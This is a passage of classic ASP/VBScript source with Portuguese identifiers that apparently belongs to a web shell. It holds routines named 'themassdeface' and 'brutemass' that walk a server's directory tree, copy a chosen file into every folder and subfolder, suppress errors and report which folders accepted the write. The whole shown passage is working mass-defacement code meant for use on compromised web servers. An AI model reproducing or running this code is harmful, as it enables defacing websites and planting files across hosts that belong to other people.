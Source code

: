                 MeuArquivo.Copy(destino9)
                MeuArquivo.Copy(destino10)
                Response.Write "&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;font face='arial' size='2'&gt;&lt;DIR&gt; " & folderItem.path & "&lt;/td&gt;"
                If Err.Number = 0 Then
                    Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='green'&gt;DONE!&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                Else
                    Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='red'&gt;" & UCase(Err.Description) & "&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;"
                End If
                Err.Number = 0
                Response.Flush
                If metodo = "brute" Then
                    Call themassdeface(folderItem.path & "\","brute",ObjFSO,MeuArquivo)
                End If
            next
        End Sub
        Sub brutemass(caminho,massaction)
            If massaction = "test" Then
                On Error Resume Next
                Set MonRep = ObjFSO.GetFolder(caminho)
                Set ColFolders = MonRep.SubFolders
                Set ColFiles0 = MonRep.Files
                for each folderItem in ColFolders
                    Set TotalFolders = ObjFSO.GetFolder(folderItem.path)
                    Set EachFolder = TotalFolders.SubFolders
                    Response.Write "&lt;table border=""0"" cellspacing=""0"" cellpadding=""0"" &gt;"
                    maindestino = folderItem.path & "\"
                    MeuArquivo.Copy(maindestino)
                    Response.Write "&lt;tr&gt;&lt;td&gt;&lt;b&gt;&lt;font face='arial' size='2'&gt;&lt;DIR&gt; " & maindestino & "&lt;/b&gt;&lt;/td&gt;"
                    If Err.Number = 0 Then
                        Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='green'&gt;Acesso Permitido&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                    Else
                        Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='red'&gt;" & UCase(Err.Description) & "&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                    End If
                    Err.Number = 0
                    Response.Flush
                    If EachFolder.count &gt; 0 Then
                        masscontador = 0
                        for each subpasta in EachFolder
                            masscontador = masscontador + 1
                            destino = subpasta.path & "\"
                            If masscontador = 1 Then
                                destinofinal = destino
                                pathfinal = subpasta.path
                                Err.Number = 0
                                MeuArquivo.Copy(destinofinal)
                                Response.Write "&lt;tr&gt;&lt;td&gt;&lt;font face='arial' size='2'&gt;&lt;DIR&gt; " & showobj(pathfinal) & "&lt;/td&gt;"
                                If Err.Number = 0 Then
                                    Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='green'&gt;Acesso Permitido&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                                Else
                                    Response.Write "&lt;td valign='baseline'&gt;&nbsp;&nbsp;&lt;font face='arial' size='2' color='red'&gt;" & UCase(Err.Description) & "&lt;/font&gt;&lt;/td&gt;&lt;/tr&gt;"
                                End If
                                Err.Number = 0
                                Response.Flush
                            Else
                                MeuArquivo.Copy(destino)